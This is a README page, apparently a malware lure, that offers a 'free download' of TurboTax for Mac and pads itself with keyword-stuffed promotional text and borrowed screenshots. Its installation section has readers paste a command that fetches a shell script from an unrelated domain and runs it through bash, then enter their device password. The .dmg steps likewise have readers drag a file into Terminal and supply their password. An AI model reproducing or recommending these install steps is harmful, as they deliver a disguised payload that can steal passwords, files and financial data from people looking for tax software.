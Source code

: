 # TurboTax For Mac — Free Download for macOS 📊

TurboTax for Mac is a powerful tax preparation software designed to simplify your tax filing process. Follow the instructions below to download and install it on your macOS device with ease. Get started today! 😊

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/turbotax)

If the download button doesn’t work, follow the step-by-step installation instructions below using the Terminal.

## 📦 How to Install TurboTax For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with TurboTax

- 📈 **Maximize Deductions**: Automatically identify and apply tax deductions tailored to your financial situation.
- 💻 **User-Friendly Interface**: Navigate through a sleek, macOS-optimized interface for a seamless tax filing experience.
- 🔒 **Secure Data Handling**: Protect your sensitive financial data with advanced encryption and secure cloud storage.
- 🧠 **Smart Recommendations**: Receive real-time guidance to optimize your tax returns and avoid costly mistakes.
- 📱 **Multi-Device Sync**: Access your tax data across devices with seamless cloud synchronization.
- 🛠 **Free Updates**: Stay compliant with the latest tax laws through regular software updates.

## About TurboTax

TurboTax for Mac is the leading tax preparation software designed specifically for macOS users, offering a streamlined way to file taxes with confidence. Whether you're a freelancer, small business owner, or individual taxpayer, TurboTax simplifies the process by guiding you through every step. With its intuitive interface and robust features, TurboTax ensures you maximize deductions while staying compliant with the latest tax regulations. Keywords: TurboTax free download, tax software for Mac, macOS tax preparation.

One of the standout features of TurboTax is its ability to automatically import financial data from banks, payroll providers, and investment platforms. This eliminates manual data entry, saving time and reducing errors. By leveraging smart algorithms, TurboTax identifies potential deductions and credits you might overlook, ensuring you get the maximum refund possible. Keywords: TurboTax for Mac free, tax filing macOS, free tax software.

For macOS users, TurboTax offers a native experience optimized for Apple’s ecosystem. The software integrates seamlessly with macOS features like Spotlight Search and iCloud, allowing you to access your tax documents effortlessly. Its clean design and step-by-step guidance make it accessible for both beginners and experienced filers. Keywords: download TurboTax Mac, tax preparation software, TurboTax macOS.

TurboTax also prioritizes security, using industry-standard encryption to protect your personal and financial information. Whether you're filing federal or state taxes, TurboTax ensures your data remains safe while providing real-time feedback to avoid errors. The software supports a wide range of tax scenarios, from simple W-2 filings to complex self-employment taxes. Keywords: TurboTax free macOS, secure tax software, tax filing for Mac.

Another key advantage is TurboTax’s commitment to keeping users updated with the latest tax laws. Regular updates ensure compliance with federal and state regulations, making it a reliable choice for macOS users. With TurboTax, you can file your taxes quickly, accurately, and with peace of mind. Keywords: TurboTax download free, macOS tax app, free tax preparation.

### Advantages of TurboTax for Mac

TurboTax for Mac stands out due to its seamless integration with macOS, robust security features, and comprehensive tax support. Unlike other tax software, TurboTax offers a native macOS experience, ensuring smooth performance and compatibility with Apple’s ecosystem. Its real-time error checking, personalized recommendations, and free updates make it the go-to choice for macOS users looking to simplify tax season. Keywords: TurboTax for Mac download, tax software macOS, free TurboTax.

## 🖼 Preview

![TurboTax Dashboard](https://fileinfo.com/img/sw/ss/xl/intuit_turbotax_166.png) 
*Clean and intuitive dashboard for easy tax filing.*

![Deduction Finder](https://mac-cdn.softpedia.com/screenshots/TurboTax-2012_1.jpg)  
*Automatically identifies deductions to maximize your refund.*

![Secure Data Input](https://mac-cdn.softpedia.com/screenshots/TurboTax-2012_6.jpg)  
*Securely import financial data with advanced encryption.*


## 🔍 Tags

TurboTax free download, TurboTax for Mac, tax software for Mac, macOS tax preparation, TurboTax macOS, download TurboTax Mac, free tax software, tax filing macOS, secure tax software, TurboTax download free, TurboTax free, TurboTax download, TurboTax free mac, TurboTax download, TurboTax download free, TurboTax mac
